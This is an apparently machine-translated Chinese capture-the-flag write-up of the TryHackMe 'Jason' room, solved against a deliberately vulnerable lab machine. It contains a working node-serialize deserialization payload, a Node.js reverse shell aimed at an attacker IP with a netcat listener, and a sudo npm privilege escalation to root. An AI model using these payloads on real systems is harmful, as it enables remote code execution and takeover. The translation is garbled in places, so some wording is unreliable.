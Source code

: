 # TryHackMe 报道— Jason

> 原文：<https://infosecwriteups.com/tryhackme-writeup-jason-f3b251373bcb?source=collection_archive---------0----------------------->

嗨，伙计们，又和特里哈克姆 with 玩得开心了。所以，这是通过这个 **Jason** 挑战的记录和指南。这间 CTF 客房是由 CTF 爱好者为 CTF 爱好者设计的。

![](img/90df8a5ef360c0d4619218b51ebedb52.png)

**房间**:[https://tryhackme.com/room/jason](https://tryhackme.com/room/jason)
**关卡**:轻松

**任务**:我们是恐怖 LLC **，**我们专门做恐怖，但是我们公司比较恐怖的一个方面是我们的前端 web 服务器。我们无法在当前状态下发布我们的网站，我们对网络安全的担忧也在成倍增长。我们要求您执行彻底的渗透测试，并尝试危害根帐户。这次订婚没有规则。祝你好运！

# 我们开始吧

像往常一样，启动机器，在浏览器中打开 IP

![](img/986fda471d3792a4bff1805ca421bc7f.png)

使用 wappalyzer，没有任何编程栈出来，但网页声称该网站是建立在 Nodejs。我们可以注意到这一点。

```
# nmap -A -T4 -sS -sV -p- 10.10.X.X
```

只有端口 80 和 22 可用。22 号港口似乎很长时间都无法征服它。让我们找到可能的目录。使用`feroxbuster`，

```
# feroxbuster --url http://10.10.X.X -w ~/wordlists/dirb/big.txt -t 60 -C 404,403,405
WLD      164l      355w        0c Got 200 for http://10.10.211.48/931607f263af457582369efab02de978 (url length: 32)
200      164l      355w        0c [http://10.10.211.48/.bashrc](http://10.10.211.48/.bashrc)
200      164l      355w        0c [http://10.10.211.48/00-mp](http://10.10.211.48/00-mp)
200      164l      355w        0c [http://10.10.211.48/.ssh](http://10.10.211.48/.ssh)
200      164l      355w        0c [http://10.10.211.48/!](http://10.10.211.48/!)
200      164l      355w        0c [http://10.10.211.48/1000](http://10.10.211.48/1000)
200      164l      355w        0c [http://10.10.211.48/1009](http://10.10.211.48/1009)
200      164l      355w        0c [http://10.10.211.48/1001](http://10.10.211.48/1001)
....
```

没有结果，因为每条路径都指向同一个索引页。没关系，让我们检查一下剧本，

![](img/46a659d2a4a60f1ad388c2fb7c352c01.png)

有 POST 方法提交邮件到服务器，结果总是这样显示

![](img/363a87d26d81959a236a8689fa57944f.png)

通常情况下，每次提交后，cookies 都会发生变化。使用 cookie 编辑器扩展

![](img/97795bfeebb3ade1b4e8dfd3e4781ae1.png)

让我们解码它，

```
# echo -n "eyJlbWFpbCI6InRlc3RpbmdAZ21haWwuY29tIn0=" | base64 -d
{"email":"testing@gmail.com"}
```

从响应中，我们知道 cookie 只是普通的 json。我们可以测试 cookie，无论电子邮件是否来自 cookie。

```
# echo -n '{"email":"Hello THM"}' | base64
eyJlbWFpbCI6IkhlbGxvIFRITSJ9
```

在 cookie 编辑器中替换它并刷新页面

![](img/3982fb6e63607eaf41062567e56370dc.png)

现在我们知道，在 HTML 页面中，传递的任何值都是被序列化的**和被反序列化的**。****

**在 exploit-db 中搜索 Nodejs 漏洞似乎不相关且不可执行。试图缩小 JSON 序列化的 google 搜索 aim，在`node-serialize`库中找到了一篇关于反序列化漏洞的文章。**

**据作者介绍，`node-serialize`内部使用`eval`功能。它序列化了几乎所有类型的对象，包括函数。例如:**

```
{"key":"_$$ND_FUNC$$_function() { console.log("Tada"); }()"}
```

**这就是带有函数的序列化对象的样子。在反序列化过程中，特殊标签`$$ND_FUNC$$`之后的任何内容都直接进入`eval`函数。**

**所以，我们来测试一下。**

```
# echo -n '{"email":"_$$ND_FUNC$$_function(){ return \"Hello THM\"; }()"}' | base64
eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpeyByZXR1cm4gXCJIZWxsbyBUSE1cIjsgfSgpIn0=
```

**![](img/3982fb6e63607eaf41062567e56370dc.png)**

**起作用了。现在我们肯定可以用它来种植储备贝壳。使用来自 PayloadOfAllThings for nodeJS 的代码片段，在 json 中构造有效负载**

```
# echo -n '{"email": "_$$ND_FUNC$$_function() { var net = require(\"net\"), cp = require(\"child_process\"), sh = cp.spawn(\"/bin/sh\", []);var client = new net.Socket();client.connect(1234, \"10.8.X.X\", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;}()"}' | base64eyJlbWFpbCI6ICJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKSB7IHZhciBuZXQgPSByZXF1aXJlKFwibmV0XCIpLCBjcCA9IHJlcXVpcmUoXCJjaGlsZF9wcm9jZXNzXCIpLCBzaCA9IGNwLnNwYXduXxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxldyBuZXQuU29ja2V0KCk7Y2xpZW50LmNvbm5lY3QoNDQ0NCwgXCIxMC44LjE2My43NFwiLCBmdW5jdGlvbigpe2NsaWVudC5waXBlKHNoLnN0ZGluKTtzaC5zdGRvdXQucGlwZShjbGllbnQpO3NoLnN0ZGVyci5waXBlKGNsaWVudCk7fSk7cmV0dXJuIC9hLzt9KCkifQ==
```

**首先运行 netcat**

```
# nc -nlvp 1234
```

**然后，用 reserve shell 有效负载替换 cookie**

**![](img/405f98366bb9ba5c497e1692b42ecd72.png)**

**对，现在我们可以访问服务器了！**

```
# nc -lnvp 1234
Connection from 10.10.X.X:50238> ls -al ~
total 40
drwxr-xr-x 5 dylan dylan 4096 Jun 10 05:38 .
drwxr-xr-x 3 root  root  4096 Jun 10 03:48 ..
-rw-rw-r-- 1 dylan dylan   66 Jun 10 04:17 .selected_editor
-rw-r--r-- 1 dylan dylan    0 Jun 10 03:50 .sudo_as_admin_successful
**-rw-r--r-- 1 dylan dylan   33 Jun 10 04:13 user.txt**> cat ~/user.txt
**0ba48780dee9f5677a4XXXXXXXXXXX**
```

**现在我们找到了第一面旗子！现在是根旗。**

**首先要检查的是`sudo -l`**

```
Matching Defaults entries for dylan on jason:
env_reset, mail_badpass,secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/binUser dylan may run the following commands on jason:
**(ALL) NOPASSWD: /usr/bin/npm ***
```

**似乎`npm`命令不需要密码。关于 GTFObins，**

**![](img/a44d6b3989e93bc41639718b8f38ab2d.png)**

**我们可以只运行命令**

```
> TF=$(mktemp -d)
> echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
> sudo npm -C $TF --unsafe-perm i
```

**忠太..Root 权限！我们可以简单地遍历并定位 root.txt 文件**

```
cat ~/root.txt
**0ba48780dee9f5677a4XXXXXXXXXXX**
```

**找到最后一面旗帜！！**

**感谢您的阅读，让我们来看看另一篇文章。🤘**